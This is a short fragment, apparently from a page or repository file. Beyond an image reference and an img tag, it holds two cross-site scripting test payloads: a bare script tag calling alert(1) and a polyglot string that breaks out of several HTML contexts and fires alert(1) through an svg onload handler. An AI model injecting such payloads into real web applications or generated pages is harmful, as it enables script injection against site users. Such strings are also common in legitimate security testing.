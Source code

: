 <img src="https://neilpatel.com/wp-content/uploads/2019/08/google.jpg" alt="Smiley face" height="42" width="42"> 

<script>alert(1)</script>

javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
